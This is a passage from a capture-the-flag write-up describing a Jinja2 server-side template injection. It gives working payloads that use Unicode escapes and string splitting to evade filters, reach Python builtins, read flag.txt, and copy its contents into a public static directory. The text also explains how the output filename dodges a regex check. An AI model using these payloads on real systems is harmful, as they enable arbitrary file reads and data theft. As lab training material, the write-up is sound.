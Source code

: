         The filename is built by concatenating two strings: `"fl"` and `"ag\u002etxt"`. Here, `\u002e` is the Unicode escape for the period (`.`).  
        This constructs the string **"flag.txt"** without writing the entire banned literal directly.
    - **`|attr('read')()`**  
        After opening the file, the `read()` method is called on the file handle to obtain its full content.
    **Result:**  
    The variable `b` now contains the content of the file "flag.txt".
3. **Print the File Content**
    - **`{% print b %}`**  
        This prints the content stored in `b` so that the template output displays the file’s content.

Tested 
```txt
User Input: {% set a=self|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('get')('\u005f\u005fbuiltins\u005f\u005f') %} {% set b=a|attr('get')('open')('fl'+'ag\u002etxt')|attr('read')() %} {% print b %}
Rendered Output:   TEST FLAG
Final Name Variable: Name :   TEST FLAG
Strength Calculation: Strength : 18060
```
*Note: it worked but we can't access the Rendered Output in the main CTF. So we need to write the flag to `/static` directory to be able to see it.*
### Write the flag to file in `/static`
```python
{% set a = self|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('get')('\u005f\u005fbuiltins\u005f\u005f') %}
{% set openf = a|attr('get')('open') %}
{% set content = openf('fl'+'ag\u002etxt')|attr('read')() %}
{% set f = openf('sta'+'tic/flag\u002etxt','w') %}
{% set r = f|attr('write')(content) %}
{% set c = f|attr('close')() %}
```
- Retrieves the `__builtins__` object (a).
- Gets the open function (`openf`).
- Reads the content of "flag.txt" (content).
- Opens `"static/flag.txt"` in write mode ('w').
- Writes the content of "flag.txt" into `"static/flag.txt"`.
- Closes the file.
We get Hack detected due to `static/flag.txt` is parse it and viewed by the regex.

```python
{% set a=self|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('get')('\u005f\u005fbuiltins\u005f\u005f') %}
{% set openf=a|attr('get')('open') %}
{% set content=openf('fl'+'ag\u002etxt')|attr('read')() %}
{% set f=openf('st'+'atic/out','w') %}
{% set _=f|attr('write')(content) %}
{% set _=f|attr('close')() %}
```
Similar to the first payload but:
- The output file is `"static/out"` instead of `"static/flag.txt"`, which may bypass regex filters checking for `"flag"` and for `.`
- Uses `_` instead of explicitly naming variables (r, c) when writing and closing the file improving stealth.
